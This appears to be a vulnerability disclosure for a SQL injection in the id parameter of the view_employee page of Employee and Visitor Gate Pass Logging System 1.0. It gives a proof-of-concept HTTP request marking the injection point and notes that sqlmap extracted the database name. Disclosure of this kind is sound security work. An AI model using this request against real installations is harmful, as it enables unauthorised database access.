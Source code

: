 ## Affected version: 
Employee and Visitor Gate Pass Logging System - 1.0

## Vendor:
https://www.sourcecodester.com/users/tips23

## Software:
https://www.sourcecodester.com/php/15026/employee-and-visitor-gate-pass-logging-system-php-source-code.html

## Vulnerability File:
employee_gatepass/admin/?page=employee/view_employee

## Description:
Employee and Visitor Gate Pass Logging System 1.0 is vulnerable to unrestricted SQL injection attacks via employee_gatepass/admin/?page=employee/view_employee, the controllable parameter is: id. This function brings the id parameter into the SQL statement for execution without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
GET /employee_gatepass/admin/?page=employee/view_employee&id=2* HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```

Get the database name through sqlmap
<img width="941" alt="image" src="https://github.com/user-attachments/assets/032872dc-cad4-45fa-bf74-c2ae127045c7">



Get the database name: employee_gatepass_db
## code analysis:

The id parameter in Master.php is controllable and directly brought into the SQL statement for execution, causing SQL injection.

<img width="1358" alt="image" src="https://github.com/user-attachments/assets/9b623887-21c3-4100-9262-54dfbf3046bd">


 
